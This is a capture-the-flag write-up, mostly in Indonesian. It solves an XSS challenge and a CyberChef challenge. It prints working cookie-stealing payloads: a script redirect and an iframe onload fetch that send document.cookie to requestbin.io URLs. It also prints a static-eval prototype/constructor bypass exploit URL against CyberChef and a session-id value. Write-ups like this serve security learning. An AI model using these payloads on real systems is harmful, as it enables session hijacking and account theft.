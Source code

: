 - flag bisa diambil dengan cara meredirect halaman ke "requestbin.io" menyeratakan cookienya, agar kita bisa mengambil cookie si admin
- https://requestbin.io/ 
```php
<script>window.location.replace("https://requestbin.io/1bcvn461" + "?"+ document.cookie)</script>
```

**session-id:** d82bbb0739fc1493b5625186b6e5faa7bfb6da35b485c468a13d703b432db500

## Cyberchef
### Penyelesaian
ada link aneh di atas kanan
```
http://https://bc8778acf8bbb216009696e7-cyberchef.challenge.master.cscg.live:31337/#recipe=JPath_expression('$..%5B?((%7B__proto__:%5B%5D.constructor%7D).constructor(%22self.postMessage(%7Baction:%5C'bakeComplete%5C',data:%7BbakeId:1,dish:%7Btype:1,value:%5C'%5C'%7D,duration:1,error:false,id:undefined,inputNum:2,progress:1,result:%5C'%3Ciframe/onload%3Dfetch(`https://requestbin.io/x44q83x4?${document.cookie}`)%3E%5C',type:%20%5C'html%5C'%7D%7D);%22)();)%5D','%5C%5Cn')&input=W3t9XQ
```
ternyata vulnerabilitynya xss dong, kita bisa membuat admin memberikan flagnya dengan link phising
https://requestbin.io/

### POC 
But this can be easily bypassed with the statement below.
```js
var obj = {__proto__:[].constructor};
// undefined
typeof obj
// 'object'
obj.constructor
// ƒ Function() { [native code] }
```
The object has a function in their `__proto__` attribute returns constructor of function when their constructor referenced even though its operated value with typeof operator returns `object`.
```js
var evaluate = require('static-eval');
var parse = require('esprima').parse;
 
var src = `({__proto__:[].constructor}).constructor('console.log(1337)')()`;
var ast = parse(src).body[0].expression;
 
evaluate(ast); // This prints "1337"
```
So this can be used to bypass restriction of static-eval.  
And It leads to XSS vulnerability in Cyberchef application.
```js
https://gchq.github.io/CyberChef/#recipe=JPath_expression('$..%5B?((%7B__proto__:%5B%5D.constructor%7D).constructor(%22self.postMessage(%7Baction:%5C'bakeComplete%5C',data:%7BbakeId:1,dish:%7Btype:1,value:%5C'%5C'%7D,duration:1,error:false,id:undefined,inputNum:2,progress:1,result:%5C'%3Ciframe/onload%3Dalert(1337)%3E%5C',type:%20%5C'html%5C'%7D%7D);%22)();)%5D','%5C%5Cn')&input=W3t9XQ
```
